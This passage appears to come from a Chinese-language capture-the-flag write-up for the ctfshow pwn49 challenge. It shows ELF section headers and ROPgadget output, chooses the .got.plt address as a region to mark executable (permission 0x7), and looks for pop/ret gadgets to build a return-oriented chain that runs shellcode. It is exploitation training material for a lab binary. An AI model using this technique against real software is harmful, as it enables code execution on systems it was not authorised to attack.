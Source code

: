 ```c
  [20] .data             PROGBITS        080da060 091060 000f20 00  WA  0   0 32
  [21] __libc_subfreeres PROGBITS        080daf80 091f80 000024 00  WA  0   0  4
  [22] __libc_IO_vtables PROGBITS        080dafc0 091fc0 000354 00  WA  0   0 32
  [23] __libc_atexit     PROGBITS        080db314 092314 000004 00  WA  0   0  4
  [24] __libc_thread_sub PROGBITS        080db318 092318 000004 00  WA  0   0  4
  [25] .bss              NOBITS          080db320 09231c 000cdc 00  WA  0   0 32
  [26] __libc_freeres_pt NOBITS          080dbffc 09231c 000014 00  WA  0   0  4
  [27] .comment          PROGBITS        00000000 09231c 000029 01  MS  0   0  1
  [28] .symtab           SYMTAB          00000000 092348 008640 10     29 1090  4
  [29] .strtab           STRTAB          00000000 09a988 006992 00      0   0  1
  [30] .shstrtab         STRTAB          00000000 0a131a 000159 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

[19] .got.plt          PROGBITS        080da000 091000 000044 04  WA  0   0  4

这里拿到got表地址

0x080da000

现在填补另外两个参数：内存区域大小和权限

大小就可以随便设定就好，0x100啥的应该都能随便用，大了改小，小了改大，能存入shellcode就够了

权限则是0x7即可

参数找到了，还需要找到三个pop，一个ret的gadget

```c
ctfshow@ubuntu:~/Desktop/xd$ ROPgadget --binary pwn49 --only "pop|ret" |grep "pop"
0x0809f422 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809f41a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08056194 : pop eax ; pop edx ; pop ebx ; ret
0x080a8dd6 : pop eax ; ret
0x0806a68d : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809f805 : pop ebp ; pop esi ; pop edi ; ret
0x0804834c : pop ebp ; ret
0x0805d6f2 : pop ebp ; ret 4
0x080a1db7 : pop ebp ; ret 8
0x0809f804 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x0805b75e : pop ebx ; pop edi ; ret
0x0806dfea : pop ebx ; pop edx ; ret
0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
0x08048349 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0805d6ef : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db4 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08049bd9 : pop ebx ; pop esi ; pop edi ; ret
0x08049807 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080c2fdc : pop ebx ; ret 0x6f9
0x0806e012 : pop ecx ; pop ebx ; ret
0x0804834b : pop edi ; pop ebp ; ret
0x0805d6f1 : pop edi ; pop ebp ; ret 4
0x080a1db6 : pop edi ; pop ebp ; ret 8
0x08069cbe : pop edi ; pop ebx ; ret
0x08061c3b : pop edi ; pop esi ; pop ebx ; ret
0x080921b8 : pop edi ; pop esi ; ret
0x08049bdb : pop edi ; ret
0x08056195 : pop edx ; pop ebx ; ret
0x0806e011 : pop edx ; pop ecx ; pop ebx ; ret
0x0806dfeb : pop edx ; ret
0x0809f419 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08065aba : pop es ; pop edi ; ret
```